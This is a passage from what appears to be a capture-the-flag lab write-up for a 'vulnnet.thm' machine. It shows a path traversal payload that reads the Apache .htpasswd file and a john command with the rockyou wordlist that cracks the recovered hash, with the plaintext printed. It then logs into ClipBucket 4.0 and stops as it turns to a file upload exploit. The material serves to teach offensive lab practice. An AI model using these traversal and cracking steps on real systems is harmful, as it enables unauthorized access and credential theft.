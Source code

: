 
```
..//..//..//..//..//..///etc/apache2/.htpasswd
```

![](Pasted image 20250401161643.png)


We get the following credentials:

```
developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
```

Since this is in a hashed format, we need to crack it, for this, we can use john, let's store the hash in a file first:

```
echo 'developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0' > hash.txt
```


We can then proceed to crack it:


```
john --format=md5crypt hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761drmfsls   (developers)
1g 0:00:00:10 DONE (2025-04-01 21:20) 0.09267g/s 200292p/s 200292c/s 200292C/s 9982..99686420
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

There we go, we got our credentials:

```
developers:9972761drmfsls
```

With the credentials, we are now able to log into the `broadcast.vulnnet.thm` subdomain:

![](Pasted image 20250401162216.png)


We are inside something called `ClipBucket`, let's search the version in the source code:

![](Pasted image 20250401162351.png)

So, `ClipBucket 4.0`, let's search for an exploit:


![](Pasted image 20250401162441.png)


There we go, we can upload files, if we check `exploit-db`, we can check the following PoC:
